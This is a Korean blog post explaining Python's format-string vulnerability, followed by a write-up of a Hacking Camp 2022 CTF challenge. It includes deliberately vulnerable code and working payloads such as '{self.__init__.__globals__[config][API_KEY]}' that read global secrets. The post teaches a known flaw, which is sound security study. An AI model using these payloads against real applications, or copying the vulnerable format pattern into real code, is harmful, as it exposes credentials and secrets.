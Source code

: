 ```yaml
---
title: Python Format Function Vulnerability
date: 2022-09-05 09:43 +0900
categories: [Hacking, Web]
tags: [Python Format 함수, Python Format Function Vulnerability, hackingcamp 25th HACKIKNGCAMP]
---
```


## Python Format Function Vulnerability
<hr style="border-top: 1px solid;"><br>

해킹캠프에서 관련된 문제가 나와서 정리를 해보았다.

내용 출처
: <a href="https://podalirius.net/en/articles/python-format-string-vulnerabilities/" target="_blank">podalirius.net/en/articles/python-format-string-vulnerabilities/</a>
: <a href="https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/" target="_blank">geeksforgeeks.org/vulnerability-in-str-format-in-python/</a>

<br>

파이썬3에는 ```format()``` 함수가 있다.

format에서 객체의 속성에 직접적으로 접근할 수 있다.

코드는 위의 링크에서 가져온 것이다.

<br>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(self=self, title=title, text=text))


if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = API(config['API_KEY'])
        print(a.renderHTML(sys.argv[1], "Vuln web render App", sys.argv[2]))


'''
$ ./test.py "<p>{text}</p>" "Wow such string"
<p>Wow such string</p>
'''
```

<br>

이러한 코드가 있을 때, ```__init__``` 메소드로 다른 속성들에 접근을 할 수 있다.

<br>

```shell
$ ./sandbox.py "<p>{text.__init__}</p>" "Wow such string"
<p><method-wrapper '__init__' of str object at 0x7f8f10a3b9f0></p>
```

<br>

주어진 text가 str 클래스이므로 str 클래스의 객체에 접근했음을 알 수 있다.

여기서 ```__globals__``` 메소드를 통해 전역 변수들에 접근을 할 수 있는데, config 딕셔너리는 전역 변수이므로 이 값이 나오게 된다.
: ```'config': {'API_KEY': '212817d980b9a03add91e5814d02'},```

<br>

따라서 이 값을 악의적인 사용자가 얻어낼 수 있게 된다.

<br>

```shell
$ ./sandbox.py "<p>{self.__init__.__globals__[config][API_KEY]}</p>" "Wow such string"
<p>212817d980b9a03add91e5814d02</p
```

<br>

이 취약점은 조건이 한정적인 것 같다.

어느 클래스가 있고 그 클래스의 인스턴스가 있을 때, format 함수에서 사용하는 변수가 그 인스턴스에 접근할 수 있을 때 유용한 것 같다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## HACKINGCAMP
<hr style="border-top: 1px solid;"><br>

```python
import hashlib
import random
import time

SECRET = {
    "FLAG" : "HCAMP{**REDACTED**}"
}

class Memo:
    def __init__(self):
        pass
    
memo_obj = Memo()

def generate_id(a):
    md5_hash = hashlib.md5()
    md5_hash.update(str(a).encode("utf-8"))
    id = md5_hash.hexdigest()
    return id
    
def register():
    user_info = {
        "name" : input("Name : "),
        "comment" : input("Comment : "),
        "id" : ""
    }
    user_info["id"] = generate_id(str(random.randint(0,255)) + user_info["name"])
    return print("Success ! Your ID is {id}".format(id=user_info["id"]))
    
def textbook():
    print("Write what you want")
    text = input()
    print(f"{text}, Enter successfully !".format(text=memo_obj))
    
def get_flag():
    admin_id = generate_id(str(random.randint(0,2**30)) + "admin")
    print(admin_id)
    guess = input("Guess Admin's ID. You will get a flag : ")
    print("Wait ..")
    if admin_id == guess:
        time.sleep(3)
        print(SECRET["FLAG"])
    else:
        time.sleep(3)
        print("Wrong !")
        
banner = """
##################################
#  Welcome to Hacking Camp 2022  #
#                                #
# 1) Register                    #
# 2) Textbook                    #
# 3) Get Flag                    #
##################################
"""

def main():
    print(banner)
    while True:
        menu = input(">>> Chooose Menu : ")
        if menu == "1":
            print("[ Register ]")
            register()
        elif menu == "2":
            print("[ Textbook ]")
            textbook()
        elif menu == "3":
            print("[ Get Flag ]")
            get_flag()
        else:
            print("Oops!")

if __name__ == "__main__":
    main()
```

<br>

위의 문제는 해킹캠프에서 misc 문제로 나온 HACKINGCAMP 문제이다.

위의 취약점과 비슷한 취약점이 발생한다.

왜나하면 여기서는 f-string도 있기 때문이다.

<br>

```python
def textbook():
    print("Write what you want")
    text = input()
    print(f"{text}, Enter successfully !".format(text=memo_obj))
```

<br>

메뉴로 2번을 입력하면 위의 코드가 실행되는데, 입력값을 받은 뒤 text에 저장하고 f-string으로 출력을 해주는데, 포맷 함수에서 text에 memo_obj 인스턴스 변수를 저장한다.

여기서 text 변수가 인스턴스에 접근할 수 있기 때문에 취약점이 발생하게 되는 것이다.

<br>

그래서 ```{text.__init__.__globals__}```를 하면 SECRET 변수의 값이 있는 걸 확인할 수 있고, 이 값을 출력해줄 수 있다.
: ```,'SECRET': {'FLAG': 'HCAMP{**REDACTED**}'},```

<br>

```shell
>>> Chooose Menu : 2
[ Textbook ]
Write what you want
{text.__init__.__globals__[SECRET][FLAG]}
HCAMP{**REDACTED**}, Enter successfully !
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
